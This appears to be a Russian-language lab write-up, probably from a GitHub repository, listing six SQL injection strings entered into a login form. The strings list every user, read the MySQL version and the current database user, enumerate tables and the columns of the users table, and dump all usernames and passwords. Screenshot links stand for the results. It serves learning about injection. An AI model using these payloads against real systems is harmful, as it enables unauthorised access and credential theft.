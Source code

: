 1. Список всех пользователей.
Инъекция: ' OR 1=1 #

![image](https://github.com/user-attachments/assets/be500567-e423-4c57-a012-9e362812fae5)

2. Узнать версию MySQL
Инъекция: ' UNION SELECT @@version, @@version # (ввод в поле пароля, user - james_kirk)

![image](https://github.com/user-attachments/assets/bc405aac-a85a-4cd3-8778-c3b4afcace6e)

3. Узнать пароли всех пользователей
Инъекция: ' UNION SELECT username,password FROM users;

![image](https://github.com/user-attachments/assets/523a0a88-3c0a-4652-b164-69b7ee49dc81)

4. Определить текущего пользователя базы данных
Инъекция: ' UNION SELECT CURRENT_USER(), CURRENT_USER() # (ввод в поле пароля, user - james_kirk)

![image](https://github.com/user-attachments/assets/2efacd00-cf7a-4dff-a4f6-a5287892a37c)

5. Извлечь имена таблиц из схемы базы данных
Инъекция: ' UNION SELECT table_name, table_name FROM information_schema.tables # (ввод в поле пароля, user - james_kirk)

![image](https://github.com/user-attachments/assets/533bd8a5-0105-4ad5-915e-7025aa41ce72)
![image](https://github.com/user-attachments/assets/38ba41ae-c7ba-4d29-a056-366be66cab1f)
![image](https://github.com/user-attachments/assets/105942ec-4130-4701-9c66-9cd26fbb830c)
![image](https://github.com/user-attachments/assets/8868d9d0-0a3b-438a-a764-d198915ae0e2)
![image](https://github.com/user-attachments/assets/9c44a0a9-7192-4999-9340-e975ec2390d2)

6. Получить список столбцов users таблицы
Инъекция: ' UNION SELECT column_name, column_name FROM information_schema.columns WHERE table_name = 'users' # (ввод в поле пароля, user - james_kirk)

![image](https://github.com/user-attachments/assets/c32f533a-1d87-4bd1-9c6b-e14e20d861ed)

